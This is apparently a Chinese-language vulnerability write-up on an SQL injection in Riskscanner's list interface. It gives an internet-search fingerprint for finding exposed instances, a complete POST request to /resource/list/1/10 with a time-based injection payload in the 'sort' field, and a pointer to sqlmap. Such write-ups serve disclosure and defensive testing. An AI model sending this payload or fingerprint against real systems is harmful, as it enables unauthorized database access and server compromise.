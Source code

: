 # Riskscanner list SQL注入漏洞

## 漏洞描述

Riskscanner list接口存在SQL注入漏洞，通过漏洞可获取服务器权限

## 漏洞影响

<a-checkbox checked>Riskscanner</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Riskscanner"</a-checkbox></br>

## 漏洞复现

登录页面



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210718204906366.png)



发送漏洞请求包

```plain
POST /resource/list/1/10 HTTP/1.1
Host: 
Content-Length: 41
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Content-Type: application/json;charset=UTF-8

{"sort":"1)a union select sleep(5) -- -"}
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210718204929186.png)



使用工具Sqlmap

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20210718204944301.png)